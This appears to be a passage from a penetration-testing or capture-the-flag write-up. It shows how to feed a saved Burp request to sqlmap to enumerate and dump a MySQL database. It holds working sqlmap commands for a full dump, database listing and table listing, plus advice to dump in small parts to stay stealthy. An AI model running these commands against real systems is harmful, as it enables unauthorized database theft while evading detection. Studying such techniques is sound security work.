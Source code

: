 i saved the request as burp.txt.


in sqlmap, we can use the command:

```
sqlmap -r burp.txt --dbms=mysql --dump
```

what this will do is dump the contents of the entire database. this can be a very noisy operation, so i'd advise against it.
the more stealthy approach is to dump the info in little parts, starting with the databases, then the tables inside the databases, and finally the contents of the tables. 

```
sqlmap -r burp.txt --dbms=mysql --dbs
```

![databases](/static/databases.png)

we can see 5 databases. "information_schema" and "performance_schema" are usually default generated databases, so let's focus on the database "db".

```
sqlmap -r burp.txt --dbms=mysql -D db --tables
```

![tables](/static/tables.png)
